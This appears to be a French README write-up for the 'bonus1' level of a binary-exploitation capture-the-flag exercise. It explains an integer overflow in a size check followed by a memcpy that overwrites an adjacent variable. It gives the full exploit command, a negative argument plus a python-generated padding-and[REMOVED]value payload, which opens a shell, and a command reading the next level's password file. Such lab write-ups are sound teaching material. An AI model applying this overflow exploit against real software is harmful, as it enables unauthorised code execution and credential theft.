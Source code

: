 ## bonus1
- Le [code source](source.c) permet de mieux repérer la faille :
    - `check` doit d'abord être inférieur à 10, mais aussi avoir une valeur suffisamment grande pour permettre le bon fonctionnement du `memcpy`. Pour répondre à ces deux conditions simultanément, il faut passer par un [*integer overflow*](https://en.wikipedia.org/wiki/Integer_overflow).
    - Ensuite, on sait que dans la mémoire `check` se situe juste après le `buffer` de 40 octets. Il faudra donc profiter du `memcpy` pour écraser la valeur de `check`
- Notre exploit doit s'appuyer sur `argv[1]` et `argv[2]`
    - Dans `argv[1]`, il suffit de mettre un nombre négatif suffisamment petit pour exploiter l'overflow => `-2147483624`
    - Dans `argv[2]`, on va placer d'abord placer 40 caractères de remplissage, puis la valeur de vérification de `check` : `python -c 'print "\x90"*40 + "\x46\x4c\x4f\x57"'`
- ``./bonus1 -2147483624 `python -c 'print "\x90"*40 + "\x46\x4c\x4f\x57"'` `` nous lance le *shell*. `cat /home/user/bonus2/.pass` pour obtenir le *flag*.